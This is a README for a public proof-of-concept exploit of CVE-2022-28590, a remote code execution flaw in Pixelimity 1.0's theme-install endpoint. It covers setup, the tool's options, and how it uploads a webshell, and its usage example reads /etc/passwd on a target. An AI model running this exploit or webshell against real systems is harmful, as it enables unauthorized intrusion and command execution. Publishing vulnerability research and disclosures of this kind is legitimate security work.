 # CVE-2022-28590
The original discovery and manual PoC is from [tuando243](https://github.com/pixelimity/pixelimity/issues/24):

A Remote Code Execution (RCE) vulnerability exists in Pixelimity 1.0 via admin/admin-ajax.php?action=install_theme.

This PoC uploads a simple webshell for further remote code execution. This exploit expects from the server that system() function is allowed, otherwise some previous recon must be done in order to detect which function allows execution other than system.


# Installation

```bash
git clone https://github.com/jcarabantes/CVE-2022-28590.git
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt

python CVE-2022-28590.py -h
```


# Quick usage
```bash

python CVE-2022-28590.py -h

  ___  _  _  ____     ___   ___  ___   ___      ___   ___  ___  ___   ___  
 / __)( \/ )( ___)___(__ \ / _ \(__ \ (__ \ ___(__ \ ( _ )| __)/ _ \ / _ \ 
( (__  \  /  )__)(___)/ _/( (_) )/ _/  / _/(___)/ _/ / _ \|__ \_  /( (_) )
 \___)  \/  (____)   (____)\___/(____)(____)   (____)\___/(___/ (_/  \___/ 

                                     Vulnerability discovered by tuando243
                                                 PoC author: @javicarabantes
usage: CVE-2022-28590.py [-h] [-d] [-q] --url URL --user USER [--password PASSWORD] [-c COMMAND]

optional arguments:
  -h, --help           show this help message and exit
  -d                   Debug output
  -q                   Do not print the banner
  --url URL            url: https://server:8081/
  --user USER          admin user
  --password PASSWORD  admin password
  -c COMMAND           Command to execute. Default: id



python CVE-2022-28590.py --url http://localhost:8082 --user myuser -c "cat /etc/passwd"
```

![example](docs/example.png)